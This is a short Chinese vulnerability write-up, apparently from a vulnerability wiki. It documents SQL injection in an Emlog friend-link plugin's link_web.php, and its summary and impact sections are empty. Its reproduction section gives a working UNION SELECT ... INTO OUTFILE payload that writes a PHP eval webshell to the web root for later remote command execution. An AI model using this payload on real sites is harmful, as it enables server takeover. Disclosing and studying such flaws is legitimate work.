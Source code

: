 Emlog 友情链接自助插件存在SQL注入漏洞
=====================================

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

在该插件当中的link\_web.php文件中，直接将用户提交的数据进行了拼接，之后直接带入了查询，未经过任何的过滤操作，由此一个典型的SQL注入漏洞就这样简易的诞生了：

![](/Users/aresx/Documents/VulWiki/.resource/Emlog友情链接自助插件存在SQL注入漏洞/media/rId24.png)

由于这里的参数都没有经过过滤，所以我们可以对任意参数进行验证，进行SQL注入，首先我们可以提交正常的访问请求，之后使用burpsuite进行抓包，之后改包，我们这里以URL为例：

在抓取到数据包之后，我们可以将url改为以下内容：

    url=http://0-sec.org' union select 1,2,3,4,5,'<?php eval($_GET[cmd]); ?>' into outfile 'c:\\phpstudy\\www\\shell.php' 

之后，这条语句会正常执行，同时也会在C:\\phpstudy\\www\\下生成一个shell.php，而且该shell.php中的内容正是我们之前写入的一句话，之后我们可以使用菜刀进行连接。
